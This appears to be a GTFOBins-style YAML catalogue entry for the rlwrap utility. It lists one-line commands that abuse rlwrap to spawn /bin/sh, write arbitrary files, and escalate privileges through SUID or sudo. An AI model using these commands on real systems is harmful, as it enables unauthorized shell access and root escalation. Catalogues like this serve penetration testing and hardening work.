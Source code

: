```yaml
---
functions:
  execute-interactive:
    - code: rlwrap /bin/sh
  file-write:
    - description: This adds timestamps to the output file. This relies on the external `echo` command.
      code: |
        LFILE=file_to_write
        rlwrap -l "$LFILE" echo DATA
  suid-enabled:
    - code: ./rlwrap -H /dev/null /bin/sh -p
  sudo-enabled:
    - code: sudo rlwrap /bin/sh
---
```

